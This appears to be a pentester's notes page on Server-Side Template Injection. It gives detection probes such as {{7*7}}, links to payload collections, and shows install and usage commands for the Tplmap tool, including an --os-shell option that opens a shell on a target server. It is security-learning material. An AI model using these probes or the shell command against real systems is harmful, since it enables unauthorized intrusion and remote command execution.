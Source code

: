 Server-Side Template Injection (`SSTI`) is essentially injecting malicious template directives inside a template, leveraging Template Engines that insecurely mix user input with a given template.

We can detect SSTI vulnerabilities by injecting different tags in the inputs we control to see if they are evaluated in the response. We don't necessarily need to see the injected data reflected in the response we receive. Sometimes it is just evaluated on different pages (blind).

The easiest way to detect injections is to supply mathematical expressions in curly brackets, for example:

```html
{7*7}
${7*7}
#{7*7}
%{7*7}
{{7*7}}
```

### Template Fuzzing Flow Diagram
Try each payload and follow the green arrow if successful to determine the template engine
More payloads:
https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection
https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection

![[Pasted image 20230706140630.png]]

### #Tplmap

You can also use automated tools like [TPLMap](https://github.com/epinna/tplmap)

### Install Tplmap
```shell
git clone https://github.com/epinna/tplmap.git
cd tplmap
sudo apt install python2 -y
curl https://bootstrap.pypa.io/pip/2.7/get-pip.py --output get-pip.py
sudo python2 get-pip.py
python2 -m pip install virtualenv
python2 -m virualenv venv
source venv/bin/activate
pip install -r requirements.txt
```

Usage
```shell
./tplmap.py -u 'http://www.target.com/page?name=John'
./tplmap.py -u 'http://<TARGET IP>:<PORT>' -d name=john
```

Use `--os-shell` option to launch a pseudo-terminal on the target.
```shell
./tplmap.py --os-shell -u 'http://www.target.com/page?name=John'
```
